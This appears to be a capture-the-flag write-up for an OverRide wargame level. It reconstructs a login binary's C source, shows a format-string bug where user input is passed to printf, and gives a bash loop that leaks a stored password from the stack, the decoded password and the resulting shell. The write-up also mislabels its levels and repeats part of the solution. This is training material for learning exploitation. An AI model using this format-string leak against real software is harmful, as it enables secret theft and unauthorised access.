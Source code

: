 in the elf, the main get the next flag:

    int fd = fopen("/home/users/level03/.pass", "r");
    [...]
    char buf[41];
    int len = fread(buf, 1, 41, fd);

we also have a function that print what user input:

    char username[100];
    printf("--[ Username: ");
    fgets(username, 100, stdin);
    [...]
    printf(username);
    puts(" does not have access!");

if we merge both idea we can use the printf (not protected) to print the data in the stack and those the password

this is a simple bash functions that display contents from the stack:

```bash
for i in {1..42};
    do echo $i %$i\$p | ./level02 | grep does;
done
```

when runing it we see differents data most between 22 and 26, it can be the password

    22 0x756e505234376848 does not have access!
    23 0x45414a3561733951 does not have access!
    24 0x377a7143574e6758 does not have access!
    25 0x354a35686e475873 does not have access!
    26 0x48336750664b394d does not have access!

let convert them from [hex to ascii](https://www.rapidtables.com/convert/number/hex-to-ascii.html) and [reverse](https://string-functions.com/reverse.aspx) those:

    0x756e505234376848 -> Hh74RPnu
    0x45414a3561733951 -> Q9sa5JAE
    0x377a7143574e6758 -> XgNWCqz7
    0x354a35686e475873 -> sXGnh5J5
    0x48336750664b394d -> M9KfPg3H

let's try by merging them:

    level02@OverRide:~$ ./level02 
    ===== [ Secure Access System v1.0 ] =====
    /***************************************\
    | You must login to access this system. |
    \**************************************/
    --[ Username: bg ultime
    --[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
    *****************************************
    Greetings, bg ultime!
    $ whoami
    level03

# Level03

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector -z execstack -z norelro source.c
```

Let's take a look at the source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv)
{
    FILE *file; // -0x8(%rbp)
    int len; // -0xc(%rbp)
    char username[100] = { 0 }; // -0x70(%rbp)
    char flag[41] = { 0 }; // -0xa0(%rbp)
    char password[100] = { 0 }; // -0x110(%rbp)

    file = 0;
    len = 0;

    file = fopen("/home/users/level03/.pass", "r");
    if (file == 0)
    {
        fwrite("ERROR: failed to open password file\n", 1, 36, stderr);
        exit(1);
    }

    len = fread(flag, 1, 41, file);
    flag[strcspn(flag, "\n")] = 0;
    if (len != 41)
    {
        fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
        fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
        exit(1);
    }

    fclose(file);

    puts("===== [ Secure Access System v1.0 ] =====");
    puts("/***************************************\\");
    puts("| You must login to access this system. |");
    puts("\\**************************************/");

    printf("--[ Username: ");
    fgets(username, 100, stdin);
    username[strcspn(username, "\n")] = 0;

    printf("--[ Password: ");
    fgets(password, 100, stdin);
    password[strcspn(password, "\n")] = 0;

    puts("*****************************************");

    if (strncmp(flag, password, 41) == 0)
    {
        printf("Greetings, %s!\n", username);
        system("/bin/sh");
        return 0;
    }

    printf(username);
    puts(" does not have access!");
    exit(1);
}
```

Let's focus on the `main` function. It reads input using the `fgets` function, which is known to be safe due to its mechanism to limit the number of bytes read. However, the `printf` function is known to be unsafe when user input is passed as the format argument, it's referred to as a format string vulnerability.
> You can read more about format string vulnerabilities [here](https://owasp.org/www-community/attacks/Format_string_attack).

We notice from the C code that the password is read from a file and stored in the `flag` variable. The `strncmp` function is used to compare the `flag` and `password` variables. If the comparison is successful, the program will execute `/bin/sh`. Since the `flag` variable is stored on the stack, we can use a format string vulnerability to read its value.

To locate our variable on the stack, we'll use this simple bash script:
```bash
for i in {1..42};
    do echo $i %$i\$p | ./level02 | grep does;
done
```
Which will print the stack values for the first 42 arguments. We can then convert the hexadecimal values to ASCII and reverse them to get the password.
```bash
level02@OverRide:~$ for i in {1..42};     do echo $i %$i\$p | ./level02 | grep does; done
[...]
22 0x756e505234376848 does not have access!
23 0x45414a3561733951 does not have access!
24 0x377a7143574e6758 does not have access!
25 0x354a35686e475873 does not have access!
26 0x48336750664b394d does not have access!
[...]
```
> The reason why our variable is located between the 22nd and 26th addresses is because the `flag` variable is located at `-0xa0(%rbp)` which is 160 in decimal, just add 16 (for the ret address, argc, argv, and envp) and you get 176 which devided by 8 (our addresses are 8 bytes long because 64 bits) is 22.

We appear to have found the password, let's convert it to ASCII:
```
0x756e505234376848 -> Hh74RPnu
0x45414a3561733951 -> Q9sa5JAE
0x377a7143574e6758 -> XgNWCqz7
0x354a35686e475873 -> sXGnh5J5
0x48336750664b394d -> M9KfPg3H

Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```

Let's try to log in with the password we found:
```bash
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: assxios
--[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
*****************************************
Greetings, assxios!
$ whoami
level03
$ cat /home/users/level03/.pass
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```

We are now level04! Let's move on to the next level.

